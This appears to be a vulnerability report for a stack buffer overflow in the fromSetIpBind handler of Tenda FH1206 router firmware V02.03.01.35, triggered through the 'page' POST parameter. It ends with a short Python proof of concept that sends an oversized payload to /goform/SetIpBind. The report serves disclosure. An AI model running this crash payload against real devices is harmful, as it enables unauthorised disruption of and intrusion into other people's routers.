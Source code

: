 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSetIpBind` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v8, "arp_bind.asp?page=%s", v2);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 161610.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 161522.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetIpBind"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)

